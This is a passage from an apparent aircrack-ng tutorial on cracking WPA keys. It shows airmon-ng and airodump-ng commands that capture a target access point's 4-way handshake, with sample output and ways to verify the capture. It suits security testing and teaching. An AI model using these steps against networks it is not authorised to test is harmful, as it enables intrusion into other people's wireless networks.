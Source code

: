    airmon-ng start rausb0 9

The system responds:

   Interface       Chipset         Driver
   
   rausb0          Ralink          rt73 (monitor mode enabled)

At this point, the interface should be ready to use.

==== Step 2 - Start airodump-ng to collect authentication handshake ====

The purpose of this step is to run airodump-ng to capture the 4-way authentication handshake for the AP we are interested in.  

Enter:

   airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk ath0

Where:
  *-c 9 is the channel for the wireless network
  *-''''-bssid 00:14:6C:7E:40:80 is the access point MAC address.  This eliminates extraneous traffic.
  *-w psk is the file name prefix for the file which will contain the IVs.
  *ath0 is the interface name.

Important: Do NOT use the "-''''-ivs" option.  You must capture the full packets.

Here what it looks like if a wireless client is connected to the network:

    CH  9 ][ Elapsed: 4 s ][ 2007-03-24 16:58 ][ WPA handshake: 00:14:6C:7E:40:80
                                                                                                                 
    BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                                 
    00:14:6C:7E:40:80   39 100       51      116   14   9  54  WPA2 CCMP   PSK  teddy                           
                                                                                                                 
    BSSID              STATION            PWR  Lost  Packets  Probes                                             
                                                                                                                 
    00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35     0      116  

In the screen above, notice the "WPA handshake: 00:14:6C:7E:40:80" in the top right-hand corner.  This means airodump-ng has successfully captured the four-way handshake.

Here it is with no connected wireless clients:

    CH  9 ][ Elapsed: 4 s ][ 2007-03-24 17:51 
                                                                                                                 
    BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                                 
    00:14:6C:7E:40:80   39 100       51        0    0   9  54  WPA2 CCMP   PSK  teddy                           
                                                                                                                 
    BSSID              STATION            PWR  Lost  Packets  Probes                                             


=== Troubleshooting Tip ===

See the [[cracking_wpa#troubleshooting_tips|Troubleshooting Tips section]] below for ideas.

To see if you captured any handshake packets, there are two ways.  Watch the airodump-ng screen for " WPA handshake: 00:14:6C:7E:40:80" in the top right-hand corner.  This means a four-way handshake was successfully captured.  See just above for an example screenshot.

Use Wireshark and apply a filter of "eapol".  This displays only eapol packets you are interested in.  Thus you can see if capture contains 0,1,2,3 or 4 eapol packets.
